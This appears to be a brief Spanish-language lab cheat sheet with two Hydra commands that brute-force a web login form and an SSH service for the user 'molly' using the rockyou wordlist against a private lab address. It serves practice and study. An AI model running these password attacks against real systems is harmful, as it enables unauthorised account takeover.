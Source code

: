 # Hydra

Ejemplo de ruptura de login web

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.57.109 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

Ruptura de SSH

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.57.109 ssh
```
